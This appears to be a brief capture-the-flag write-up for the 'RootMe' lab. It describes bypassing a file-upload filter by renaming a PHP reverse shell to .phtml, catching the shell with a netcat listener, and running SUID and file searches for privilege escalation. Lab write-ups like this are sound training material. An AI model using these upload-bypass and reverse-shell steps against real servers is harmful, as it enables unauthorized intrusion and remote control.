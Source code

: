 # RootMe

IP - 10.10.88.7

## Scanning and Enumeration
nmap scan:
```

```
dirsearch:
```

```

## Exploit
- http://10.10.88.7/panel is vulnerable to file upload.
- http://10.10.88.7/uploads allows you to see the uploaded files.
- Website allows .txt to be uploaded but .php gets denied.


## Reverse Shell
- In terminal navigate to ``` /usr/share/webshells/php/php-reverse-shell.php ```
- ``` cp php-reverse-shell.php ~/Documents/php_reverse_shell.phtml ``` (copy executable file to "Docuemnts" directory and change the file name to .phtml file).


*The reason behind changing the file name to .phtml it's because we need to use a different php extension in order to execute the php reverse shell.
- Upload the executable file in the website and then go to http://10.10.88.7/uploads.
- In the terminal start netcat listener - ``` nc -nlvp 4444 ``` > go back to the website and open the executable file > acheived reverese shell.

## Post-Exploit
- To find user.txt - ``` find / -name “user.txt” 2>/dev/null ```

# Priviledge Escalation
Finding user with different priviledges -``` find / -user root -perm -4000 2>/dev/null ```
